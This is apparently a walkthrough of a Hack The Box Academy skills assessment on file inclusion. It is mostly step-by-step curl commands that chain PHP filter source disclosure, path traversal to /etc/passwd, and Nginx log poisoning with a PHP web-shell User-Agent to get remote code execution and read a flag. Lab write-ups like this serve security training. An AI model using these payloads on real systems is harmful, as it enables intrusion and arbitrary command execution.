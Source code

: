 # Skills Assessment Walkthrough - HTB Academy Guide

## HTB Academy Skills Assessment - File Inclusion

> Complete walkthrough of the capstone challenge that combines multiple LFI techniques for RCE and flag extraction.

**Challenge:** "Assess the web application and use a variety of techniques to gain remote code execution and find a flag in the / root directory of the file system."

---

## Multi-Technique Exploitation Chain

### Phase 1: Source Code Disclosure
```bash
# Step 1: Discover vulnerable parameter
http://TARGET_IP:PORT/index.php?page=about

# Step 2: PHP filter source disclosure
http://TARGET_IP:PORT/index.php?page=php://filter/convert.base64-encode/resource=index

# Step 3: Decode and analyze source
echo 'BASE64_OUTPUT' | base64 -d | grep -i admin
# Reveals: // echo '<li><a href="ilf_admin/index.php">Admin</a></li>';
```

### Phase 2: Admin Panel Discovery
```bash
# Step 4: Read admin panel source
http://TARGET_IP:PORT/index.php?page=php://filter/convert.base64-encode/resource=ilf_admin/index

# Step 5: Identify LFI in admin panel
# Vulnerable code found:
# $log = "logs/" . $_GET['log'];
# include $log;
```

### Phase 3: LFI Exploitation
```bash
# Step 6: Test admin panel LFI
http://TARGET_IP:PORT/ilf_admin/index.php?log=../../../../../../../etc/passwd

# Step 7: Identify web server (Nginx)
http://TARGET_IP:PORT/ilf_admin/index.php?log=../../../../../../../var/log/nginx/access.log
```

### Phase 4: Log Poisoning & RCE
```bash
# Step 8: Poison User-Agent header
curl -H "User-Agent: <?php system(\$_GET['cmd']); ?>" \
     "http://TARGET_IP:PORT/ilf_admin/index.php?log=../../../../../../../var/log/nginx/access.log"

# Step 9: Execute commands
http://TARGET_IP:PORT/ilf_admin/index.php?log=../../../../../../../var/log/nginx/access.log&cmd=ls /

# Step 10: Find and read flag
http://TARGET_IP:PORT/ilf_admin/index.php?log=../../../../../../../var/log/nginx/access.log&cmd=cat /flag_*
```

---

## Techniques Demonstrated

1. **PHP Filter Source Disclosure** - Reading application source code
2. **Hidden Functionality Discovery** - Finding commented admin panels
3. **Path Traversal & LFI** - Basic file inclusion exploitation
4. **Web Server Identification** - Testing different log locations
5. **Log Poisoning** - User-Agent header injection
6. **Remote Code Execution** - Command execution via poisoned logs

---

## Complete Attack Commands

```bash
# 1. Source disclosure
curl "http://TARGET_IP:PORT/index.php?page=php://filter/convert.base64-encode/resource=index"

# 2. Admin panel discovery
echo 'BASE64_OUTPUT' | base64 -d | grep -i admin

# 3. Admin source disclosure
curl "http://TARGET_IP:PORT/index.php?page=php://filter/convert.base64-encode/resource=ilf_admin/index"

# 4. LFI testing
curl "http://TARGET_IP:PORT/ilf_admin/index.php?log=../../../../../../../etc/passwd"

# 5. Log poisoning
curl -H "User-Agent: <?php system(\$_GET['cmd']); ?>" \
     "http://TARGET_IP:PORT/ilf_admin/index.php?log=../../../../../../../var/log/nginx/access.log"

# 6. RCE and flag extraction
curl "http://TARGET_IP:PORT/ilf_admin/index.php?log=../../../../../../../var/log/nginx/access.log&cmd=cat /flag_*"
```

---

## Expected Flag Format

**Flag:** `HTB{example_flag_here}` or similar format  
**Location:** `/flag_[random].txt` in root directory

---

## Alternative Approaches

If primary method fails, try:

1. **SSH Log Poisoning** - If SSH is available
2. **PHP Session Poisoning** - If sessions are accessible  
3. **Data Wrapper RCE** - If `allow_url_include=On`
4. **Different Log Locations** - Apache logs, mail logs, etc.

---

*This walkthrough demonstrates the complete HTB Academy Skills Assessment solution, showcasing advanced file inclusion exploitation techniques.* 